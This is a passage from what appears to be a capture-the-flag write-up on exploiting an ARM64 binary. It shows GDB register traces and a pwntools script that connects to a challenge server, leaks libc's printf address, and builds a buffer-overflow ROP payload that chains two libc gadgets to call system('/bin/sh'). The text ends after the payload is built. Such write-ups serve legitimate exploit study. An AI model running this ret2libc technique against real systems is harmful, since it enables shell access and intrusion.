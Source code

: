 ```
0x0000ffffe27d9ba8│+0x0008: 0x0000ffff9eae4818  →  0x17fffe99b4000040 ("@"?)
```

`x19` is now pointing to `/bin/sh`, `x30` is loaded up with the address of the second gadget.

The stack frame for the 2nd gadget has `x29` and `x30` set to garbage and `system` respectively.

After 4 `si`'s:

```
$x0  : 0x0000ffff9ebbd9a8  →  0x0068732f6e69622f ("/bin/sh"?)
...
$x30 : 0x0000ffff9eae4818  →  0x17fffe99b4000040 ("@"?)
```

`x0` is pointing to `/bin/sh` and `x30` pointing to `system`, just `continue` to pop a shell.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./arm')

if args.REMOTE:
    p = remote('172.104.14.64', 54732)
    libc = ELF('./libc-2.23.so')
    p.recvuntil('printf at ')
else:
    if os.uname().machine == context.arch:
        p = process(binary.path)
        libc = binary.libc
    else:
        if args.GDB:
            p = process(('stdbuf -i0 -o0 -e0 qemu-'+context.arch+' -g 9000 -L /usr/'+context.arch+'-linux-gnu '+binary.path).split())
        else:
            p = process(('stdbuf -i0 -o0 -e0 qemu-'+context.arch+' -L /usr/'+context.arch+'-linux-gnu '+binary.path).split())
        libc = ELF('/usr/'+context.arch+'-linux-gnu/lib/libc.so.6')
    p.recvuntil('print at ')
```

More that your standard pwntools starter; I included support for all the options I described above in the _Tooling_ section above.

```python
_ = p.recvline().strip().decode()
printf = int(_,16)
libc.address = printf - libc.sym.printf
log.info('libc.address: ' + hex(libc.address))

payload  = b''
payload += 128 * b'A'
payload += 8 * b'B'
payload += p64(libc.search(asm('ldp x19, x20, [sp, #0x10]; ldp x29, x30, [sp], #0x20; ret;')).__next__())
payload += (8 * 3) * b'C'
payload += p64(libc.search(asm('mov x0, x19; ldr x19, [sp, #0x10]; ldp x29, x30, [sp], #0x20; ret;')).__next__())
payload += p64(libc.search(b"/bin/sh").__next__())
payload += (8 * 2) * b'D'
payload += p64(libc.sym.system)

```